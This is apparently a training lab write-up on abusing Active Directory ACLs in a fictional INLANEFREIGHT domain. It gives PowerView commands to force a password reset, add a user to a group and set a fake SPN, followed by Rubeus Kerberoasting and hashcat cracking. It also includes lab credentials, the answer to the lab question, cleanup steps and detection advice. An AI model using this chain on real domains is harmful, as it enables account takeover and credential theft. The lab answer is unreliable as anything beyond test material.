

<div align='center'>

# **Lab 16: ACL Abuse Tactics** 

</div>

## **Change the password of the user (User-Force-Change-Password)**

**Creating a PSCredential Object**

```powershell
$SecPassword = ConvertTo-SecureString 'transporter@4' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\wley', $SecPassword) 
```

**Creating a SecureString Object:** Represents the password we want to set for the target user `damundsen`

```powershell
$damundsenPassword = ConvertTo-SecureString 'Pwn3d_by_ACLs!' -AsPlainText -Force
```

**Changing the User's Password**
    
```powershell
Set-DomainUserPassword -Identity damundsen -AccountPassword $damundsenPassword -Credential $Cred -Verbose
```


**Creating a SecureString Object using damundsen**

```powershell
$SecPassword = ConvertTo-SecureString 'Pwn3d_by_ACLs!' -AsPlainText -Force
$Cred2 = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\damundsen', $SecPassword)
```

## **Add the user to the Help Desk Level 1 group (GenericWrite)**

```powershell
Add-DomainGroupMember -Identity 'Help Desk Level 1' -Members 'damundsen' -Credential $Cred2 -Verbose
```


## **Create a Fake SPN for Kerberoasting (GenericAll)**

Modifying the account's servicePrincipalName attribute to create a fake SPN that we can then Kerberoast to obtain the TGS ticket and (hopefully) crack the hash offline using Hashcat

**Creating a Fake SPN**

```powershell
Set-DomainObject -Credential $Cred2 -Identity adunn -SET @{serviceprincipalname='notahacker/LEGIT'} -Verbose
```


**Kerberoasting with Rubeus**

```powershell
Rubeus.exe kerberoast /user:adunn /nowrap
```



We get the [hash](../docs/adunn_TGSTicket.txt) for the user `adunn`

**Cracking the Hash**

```zsh
hashcat -m 13100 adunn_tgs /usr/share/wordlists/rockyou.txt
```


We get the password `SyncMaster757`


**Question:**  Work through the examples in this section to gain a better understanding of ACL abuse and performing these skills hands-on. Set a fake SPN for the adunn account, Kerberoast the user, and crack the hash using Hashcat. Submit the account's cleartext password as your answer.

- **Answer**: SyncMaster757


## **Cleanup**

**Removing the Fake SPN from adunn's Account**

```powershell
Set-DomainObject -Credential $Cred2 -Identity adunn -Clear serviceprincipalname -Verbose
```


**Removing damundsen from the Help Desk Level 1 Group**

```powershell
Remove-DomainGroupMember -Identity "Help Desk Level 1" -Members 'damundsen' -Credential $Cred2 -Verbose
```


## **Detection and Remediation**

**Remediation:**

- Auditing for and removing dangerous ACLs
- Monitor group membership
- Audit and monitor for ACL changes

**Detection:**

- Viewing Event ID 5136

    `Event ID 5136: A directory service object was modified` which would indicate that the domain object was modified, which could be indicative of an ACL attack

